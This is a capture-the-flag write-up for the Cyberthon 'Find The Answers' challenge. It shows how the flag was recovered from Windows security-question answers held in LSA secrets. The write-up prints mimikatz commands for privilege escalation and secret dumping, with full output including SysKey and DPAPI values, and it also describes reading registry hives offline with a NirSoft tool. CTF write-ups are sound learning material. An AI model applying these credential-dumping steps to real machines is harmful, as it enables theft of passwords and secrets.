

# Find The Answers

## Description

An attacker has denied access to an important service by changing the password.

Fortunately, the attacker suffers from amnesia and has conveniently stored the password in the victim's machine! The attacker has also been generous enough to create a clue to help him recall the storage location. "You need 3 questions but every answer matters".

Can you find the password? Enter the flag as Cyberthon{<password>}.

## Intended Solution

*There is an "unintended solution" which makes this really easy and was what we used, read below for more.*

After trying to figure out what the hint `"You need 3 questions but every answer matters"` meant, we finally figured out that it meant "Windows Security Questions".

So... the next issue is: how do we extract the windows security questions out?

A quick google search on where the windows security questions are stored will reveal that they are located in the `LSA Secrets`. So how do we obtain it?

Using the ubiquitous mimikatz of course! So let's boot up the VM, slap Mimikatz on it and dump the LSA secrets!

```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::whoami
 * Process Token : {0;0003f0f4} 1 F 1459413     DESKTOP-LMKKNGP\admin_user      S-1-5-21-3497908505-2386872750-3641233827-1000  (14g,24p)       Primary
 * Thread Token  : no token

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

540     {0;000003e7} 1 D 39832          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0003f0f4} 1 F 1459413     DESKTOP-LMKKNGP\admin_user      S-1-5-21-3497908505-2386872750-3641233827-1000  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1502926     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::secrets
Domain : DESKTOP-LMKKNGP
SysKey : 15673a77c04e92a20b4bde7c942d5f84

Local name : DESKTOP-LMKKNGP ( S-1-5-21-3497908505-2386872750-3641233827 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {f9c1abd4-b82f-8bf3-95e7-5e27294eade5}
  [00] {f9c1abd4-b82f-8bf3-95e7-5e27294eade5} 5ae8f11b9ecf3874d19efa2f7c02f994412a9179e5039bf306b8aa69b0b4173d

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 e1 00 7b 45 a2 ac f7 96 04 62 e1 81 42 44 b4 21 87 3f 1b 84 75 01 1b d6 d1 49 0e 1f d4 8e d7 ec 14 14 06 a7 ba 51 fb 45
    full: e1007b45a2acf7960462e1814244b421873f1b8475011bd6d1490e1fd48ed7ec141406a7ba51fb45
    m/u : e1007b45a2acf7960462e1814244b421873f1b84 / 75011bd6d1490e1fd48ed7ec141406a7ba51fb45
old/hex : 01 00 00 00 8f 2e a3 86 22 98 f2 40 f4 bd ec 52 3a dc f8 a4 d5 9c f8 36 4f 97 0f 83 a3 4f 01 09 f3 c3 da d9 6e 45 96 8e bc 54 c8 eb
    full: 8f2ea3862298f240f4bdec523adcf8a4d59cf8364f970f83a34f0109f3c3dad96e45968ebc54c8eb
    m/u : 8f2ea3862298f240f4bdec523adcf8a4d59cf836 / 4f970f83a34f0109f3c3dad96e45968ebc54c8eb

Secret  : L$_SQSA_S-1-5-21-3497908505-2386872750-3641233827-1000
cur/text: {"version":1,"questions":[{"question":"What’s the name of the first school you attended?","answer":"Cy2er"},{"question":"What was your first pet’s name?","answer":"Th0n"},{"question":"What was your childhood nickname?","answer":"B@b@"}]}

....
```

And there are our questions! The password & flag is hence: 

```
Cyberthon{Cy2erTh0nB@b@}
```


## Unintended Solution

During the CTF, I was unable to boot the VM due to my VirtualBox running into some issues. 

Drawing from past experience, we can easily extract the files directly from the VMDK using 7zip.

But after some searching, I still had no idea what file to dump and extract the LSA Secrets from using mimikatz. I then searched high and low to find a tool that can extract it directly from the files without having to run in the VM itself.

After a lot of googling and trying different tools, I finally stumbled upon [SecurityQuestionsView](https://www.nirsoft.net/alpha/). This tool only required the config file (`Windows\System32\Config`) which I quickly extracted and dumped it in.



*Sometimes the right tool just makes life easier*


### Takeaways

- We were actually supposed to boot the VM 😮
- VMware is 10 times better than VirtualBox

